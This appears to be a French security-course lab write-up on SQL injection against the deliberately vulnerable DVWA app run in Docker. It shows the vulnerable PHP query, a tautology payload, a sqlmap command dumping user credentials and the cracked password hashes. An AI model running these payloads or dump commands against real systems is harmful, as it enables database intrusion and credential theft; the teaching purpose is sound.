 # TP - formation sécu n°1

## Installation

```bash
    docker pull astronaut1712/dvwa
    docker pull googlesky/sqlmap
    docker run -p 80:80 astronaut1712/dvwa
```

## Démarrage

1. se connecter sur http://localhost/
2. create/reset database
3. s'identifier (admin / password)
4. aller sur la page [SQL injection](http://localhost/vulnerabilities/sqli/)

## Injection SQL

### Le code fautif

```php
    $id = $_REQUEST['id'];
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysql_query($query);
```

1. récupération d'un *query param* "id"
2. construction d'une requête SQL qui demande le prénom et le nom de l'utilisateur correspondant à l'id
3. exécution de la requête

### Utilisation normale

Saisir `5` dans le formulaire.
> `id = 5`
>
>```sql
>$query  = "SELECT first_name, last_name FROM users WHERE user_id = '5';";
>```
>
> La requête SQL envoyée à la base de donnée sera :
>> `SELECT first_name, last_name FROM users WHERE user_id = '5';`

### Détection de l'existence de la faille

Lorsque l'on saisit `'` dans le formulaire (juste une quote simple / une apostrophe), on obtient une erreur.

> `id = '`
>
>```sql
>$query  = "SELECT first_name, last_name FROM users WHERE user_id = ''';";
>```
>
> La requête SQL envoyée à la base de donnée sera :
>> `SELECT first_name, last_name FROM users WHERE user_id = ''';`

### Exploitation manuelle de la faille

> Par exemple, si `id = ' or 1=1-- -` (avec l'apostrophe et le "moins" à la fin)
>
>```sql
>$query = "SELECT first_name, last_name FROM users WHERE user_id = '' or 1=1-- -';";
>-------------------------------------------------------------------|__________|
>```
>
> La requête SQL envoyée à la base de donnée sera :
>> `SELECT first_name, last_name FROM users WHERE user_id = '' or 1=1`

1. la quote ferme la première chaîne de caractères
2. `or 1=1` est une condition toujours vraie
3. tout ce qui est après `--` est ignoré (commentaires)

### Exploitation automatisée

1. avec les DevTools -> storage -> cookies -> récupérer le PHPSESSID
2. lancer sqlmap en lui donnant le votre PHPSESSID

    >```bash
    >docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap -u "http://host.docker.internal/vulnerabilities/sqli/?id=1&Submit=Submit" \
    >   --cookie="PHPSESSID=crtiv3rujjvauflnodmeqk6uc5; security=low" --batch \
    >   -D dvwa -T users -C user,password --dump
    >```

3. les résultats obtenus sont :

    >```code
    >+---------+---------------------------------------------+
    >| user    | password                                    |
    >+---------+---------------------------------------------+
    >| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
    >| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
    >| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
    >| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
    >| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
    >+---------+---------------------------------------------+
    >```

4. essayer avec `--dump-all --all`
5. recherchez `8d3533d75ae2c3966d7e0d4fcc69216b` ou les autres hash de mots de passe sur google

## Conclusions

1. il s'agit d'un cas simple, délibérément vulnérable, pour que l'exercice reste simple
1. une injection SQL permet d'exécuter des requêtes SQL sur la base de données
![Bobby Tables](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)
1. les répercutions peuvent être assez inattendues. Ici on peut récupérer :
    * les mots de passe des utilisateurs alors que le code php n'y fait pas référence
    * l'ensemble des bases de données du serveur
    * les droits des utilisateurs
1. il ne faut JAMAIS stocker des mots de passe hashés (md5 au autres)
1. voir <https://owasp.org/www-project-top-ten/>
